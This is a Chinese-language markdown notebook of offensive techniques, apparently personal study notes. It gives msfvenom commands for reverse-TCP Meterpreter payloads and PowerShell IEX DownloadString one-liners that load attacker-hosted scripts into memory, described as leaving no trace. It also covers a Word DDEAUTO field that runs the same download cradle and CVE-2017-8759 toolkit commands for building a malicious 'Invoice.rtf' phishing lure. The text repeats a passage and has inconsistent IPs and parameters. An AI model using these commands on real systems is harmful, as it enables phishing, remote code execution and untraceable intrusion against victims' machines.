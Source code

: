## powershell msf无文件攻击

powershell  必须加/x64/

~~~~markdown
上面生成的木马都是要发送到服务器运行才行，有落地文件，会有痕迹，如果
想建立会话的同时不想在服务器留文件，可以用无文件攻击，通过命令远程加
载代码到内存运行，一旦重启无法溯源。
具体操作：
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=148.28.27.106 lhost=1234 -f psh-reflection > x.ps1
（这一步生成ps脚本文件）
启用vps，搭建网站，把文件放在网站目录里，通过对外部文件的访问来
http://149.28.27.106/x.ps1
进行调用，如vps的ip为192.168.8.1
建立侦听
在目标机的命令行输入：powershell IEX (New-Object 
Net.Webclient).DownloadString('http://149.28.27.106/x.ps1')，运行
进行调用，如vps的ip为192.168.8.1
建立侦听
在目标机的命令行输入：powershell IEX (New-Object 
Net.Webclient).DownloadString('http://149.28.27.106/x.ps1')，运行
建立连接
~~~~

## WORD钓鱼

~~~
新建word设置域，
DDEAUTO C:\\windows\\system32\\cmd.exe "/k powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.8.1/x.ps1')
~~~

![image-20220220222959832](E:\学习\picture\image-20220220222959832.png)

![image-20220220223010482](E:\学习\picture\image-20220220223010482.png)

![image-20220220223039032](E:\学习\picture\image-20220220223039032.png)

## msf使用宏钓鱼

~~~~markdown
git clone https://github.com/bhdresh/CVE-2017-8759.git
python cve-2017-8759_toolkit.py -M gen -w Invoice.rtf -u http://192.168.80.132/logo.txt

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.80.132 LPORT=1133 -f exe > /root/shell.exe

捆绑后开80端口 netstat -tnlp
python cve-2017-8759_toolkit.py -M exp -e http://192.168.80.132/shell.exe -l /root/shell.exe

开启监听模块，发送给目标运行钓鱼文件，等代上线

~~~~

